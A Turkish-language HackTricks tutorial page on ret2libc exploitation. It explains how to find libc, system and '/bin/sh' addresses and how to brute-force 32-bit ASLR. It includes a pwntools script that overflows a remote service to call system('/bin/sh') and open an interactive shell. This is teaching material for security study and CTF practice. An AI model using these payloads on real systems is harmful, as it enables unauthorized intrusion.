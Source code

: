 # Ret2lib

<details>

<summary><strong>Sıfırdan kahraman olmaya kadar AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na(https://github.com/sponsors/carlospolop) göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## **Temel Bilgiler**

**Ret2Libc**'nin özü, zayıf bir programın yürütme akışını, saldırgan tarafından sağlanan shellcode'un yığında yürütülmesi yerine, paylaşılan bir kütüphane içindeki bir işlevine yönlendirmektir (örneğin, **system**, **execve**, **strcpy**). Saldırgan, geri dönüş adresini değiştiren bir yük oluşturur ve yığında istenen kütüphane işlevine işaret edecek şekilde ayarlar, aynı zamanda çağrı konvansiyonuna göre gerekli argümanların da doğru şekilde ayarlanmasını sağlar.

### **Örnek Adımlar (basitleştirilmiş)**

* Çağrılacak işlevin adresini alın (örneğin, system) ve çağrılacak komutu alın (örneğin, /bin/sh)
* İlk argümanı komut dizinine işaret edecek şekilde ve yürütme akışını işleve geçirecek şekilde ROP zinciri oluşturun

## Adresleri Bulma

* Kullanılan `libc`'nin mevcut makineden olduğunu varsayarsak, nerede bellekte yükleneceğini aşağıdaki komutla bulabilirsiniz:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

Eğer ASLR'nin libc adresini değiştirip değiştirmediğini kontrol etmek istiyorsanız şunu yapabilirsiniz:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* Kullanılan libc bilindiğinde, `system` işlevine olan ofseti bulmak da mümkündür:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* Kullanılan libc bilindiğinde, `/bin/sh` dizesinin işlevine olan ofseti bulmak da mümkündür:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### gdb-peda / GEF Kullanımı

Kullanılan libc bilindiğinde, Peda veya GEF kullanılarak **system** fonksiyonunun, **exit** fonksiyonunun ve **`/bin/sh`** dizesinin adresini elde etmek de mümkündür:
```bash
p system
p exit
find "/bin/sh"
```
### /proc/\<PID>/maps Kullanımı

Eğer işlem her konuştuğunuzda (ağ sunucusu) **çocuklar** oluşturuyorsa, o dosyayı **okumaya** çalışın (muhtemelen root olmanız gerekecektir).

Burada işlem içinde **libc'nin tam olarak nerede yüklendiğini** ve işlemin her çocuğu için **nerede yükleneceğini** bulabilirsiniz.

![](<../../../.gitbook/assets/image (853).png>)

Bu durumda **0xb75dc000** adresine yüklendi (Bu libc'nin taban adresi olacaktır)

## Bilinmeyen libc

Binary'nin yüklediği libc'yi **bilmediğiniz olabilir** (çünkü erişiminiz olmayan bir sunucuda olabilir). Bu durumda zafiyeti **sızdırmak için kullanabilir ve hangi libc** kütüphanesinin kullanıldığını bulabilirsiniz:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

Ve bunun için bir pwntools şablonunu bulabilirsiniz:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

### 2 ofset ile libc'yi bilmek

[https://libc.blukat.me/](https://libc.blukat.me/) sayfasını kontrol edin ve libc içindeki fonksiyonların **bir çift adresini** kullanarak **kullanılan sürümü** bulun.

## 32 bit ASLR'yi Atlatma

Bu brute-force saldırıları **yalnızca 32 bit sistemler için** kullanışlıdır.

* Saldırı yerel ise, libc'nin taban adresini brute-force etmeyi deneyebilirsiniz (32 bit sistemler için kullanışlıdır):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Uzak bir sunucuyu hedef alıyorsanız, `libc` fonksiyonu `usleep`'in adresini **10** (örneğin) argümanı olarak geçerek **brute-force** yöntemini deneyebilirsiniz. Eğer sunucu **cevap vermek için 10 saniye daha fazla zaman alıyorsa**, bu fonksiyonun adresini buldunuz demektir.

## Tek Gadget

`libc` içinde **belirli bir adrese** sadece atlayarak bir kabuk çalıştırın:

{% content-ref url="one-gadget.md" %}
[one-gadget.md](one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib Kod Örneği

Bu örnekte ASLR brute-force kod içine entegre edilmiş ve zafiyetli ikili dosya uzak bir sunucuda bulunmaktadır:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib Kod Örneği

Örneği kontrol etmek için:

{% content-ref url="../" %}
[..](../)
{% endcontent-ref %}

## ARM64 Ret2lib Örneği

ARM64 durumunda, ret komutu x30 kaydının işaret ettiği yere atlar ve yığın kaydının işaret ettiği yere değil. Bu nedenle biraz daha karmaşıktır.

Ayrıca ARM64'te bir komut, ne yapması gerekiyorsa onu yapar (komutların ortasına atlayıp onları yeni komutlara dönüştürmek mümkün değildir).

Örneği kontrol etmek için:

{% content-ref url="ret2lib-+-printf-leak-arm64.md" %}
[ret2lib-+-printf-leak-arm64.md](ret2lib-+-printf-leak-arm64.md)
{% endcontent-ref %}

## Printf'e Ret

Bu, `printf`/`puts`'ı belirli bir veriyle bir argüman olarak çağırarak işlemdeki bilgileri sızdırmayı sağlar. Örneğin, GOT'taki `puts` adresini `puts`'ın bir yürütülmesine yerleştirmek, bellekteki `puts` adresini sızdıracaktır.

## Ret2printf

Bu temelde, bir `Ret2lib`'i kullanarak bir `printf` format dizesi güvenlik açığına dönüştürmek anlamına gelir, `ret2lib`'i kullanarak onu sömürmek için `printf`'i çağırmak ve sömürmek için değerlerle kullanmak (anlamsız görünse de mümkündür):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## Diğer Örnekler ve Referanslar

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, libc'teki bir işlevin adresine sızıntı verildiğinde, tek bir araç kullanarak
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 bit, ASLR etkin ancak PIE etkin değil, ilk adım bir taşma oluşturup canary'nin 0x00 baytına kadar doldurmak ve ardından puts'u çağırıp sızdırmaktır. Canary ile puts'un GOT'tan adresini sızdırmak için bir ROP aracı oluşturulur ve ardından `/bin/sh` adresiyle `system('/bin/sh')` çağırmak için bir ROP aracı oluşturulur.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 bit, ASLR etkin, canary yok, ana fonksiyonda bir çocuk fonksiyonundan yığın taşması. Puts'u çağırmak için ROP aracı oluşturup GOT'tan puts'un adresini sızdırmak ve ardından bir ROP aracı çağırmak için ROP aracı oluşturulur.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 bit, pie yok, canary yok, relro yok, nx. Write işlevini kullanarak write (libc) adresini sızdırmak ve bir araç çağırmak için kullanır.
* [https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html)
* Stack'ten canary'yi sızdırmak için bir format dizesi kullanır ve bir taşma oluşturarak system'i (GOT'ta) `/bin/sh` adresiyle çağırmak için bir araç oluşturur.
* [https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html)
* 32 bit, relro yok, canary yok, nx, pie. Bir sızıntı oluşturmak için kötü bir dizinlemeyi kötüye kullanır ve yığından libc ve heap adreslerini sızdırmak için kötüye kullanır. Buffer taşmasını kötüye kullanarak `system('/bin/sh')` çağırmak için ret2lib yapar (bir kontrolü atlamak için heap adresine ihtiyaç vardır).

